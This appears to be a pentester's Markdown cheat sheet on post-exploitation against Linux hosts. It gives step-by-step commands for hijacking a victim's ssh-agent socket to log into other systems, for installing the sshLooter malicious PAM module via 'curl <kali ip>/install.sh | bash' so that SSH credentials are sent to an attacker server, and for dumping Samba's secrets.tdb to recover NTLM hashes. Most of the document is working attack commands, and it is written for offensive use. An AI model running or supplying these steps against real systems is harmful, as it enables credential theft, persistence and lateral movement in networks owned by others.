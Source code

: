#### how to attack
1. We first determine the SSH process ID of the user on the compromised host
```
ps aux | grep sshd
```

2. We determine the SSH_AUTH_SOCK environment variable For the sshd PID
```
grep SSH_AUTH_SOCK /proc/<PID>/environ
```

3. Hijack the targets ssh-agent socket
```
SSH_AUTH_SOCK=/tmp/ssh-XXXXXXX/agent.XXXX ssh-add -l
```

4. Log into the remote system our victim is logged into as the target
```
ssh remotesystem -l victim 
```
- https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/

#### if you have root access and want to discover more credentials
- To steal SSH credentials we can use a malicious PAM module
   → https://mthbernardes.github.io/persistence/2018/02/10/stealing-ssh-credentials-another-approach.html?lipi=urn:li:page:d_flagship3_feed;6EEiLAg8RlyAOl67hZyVRA==
- Through this malicious PAM module, every SSH connection attempt will be forwarded to a server under your control, accompanied by the credentials used For this connection attempt.

on kali:
```
git clone https://github.com/mthbernardes/sshLooter
cd sshLooter
   // host and edit intall.sh and looter.py poiting the url variable to a server under your control, that can log POST request.
```

on the compromised machine:
```
curl http://<kali ip>:8000/install.sh | bash
```

// you can now try the captured credentials against other identified machines in the network!

### Samba Secrets to Domain Admin
- when a new Samba user is created, this information is usually stored in what is known as the **secrets.tdb** file
- In Samba version 4.7.4 on Debian, the secrets.tdb file is stored in the **/var/lib/samba/private** directory
- if we are root:

```
tdbdump /var/lib/samba/private/secrets.tdb
```

// we can see which domain the machine is from
// and that one of the data fields contains encoded data that decodes to the NTLM hash
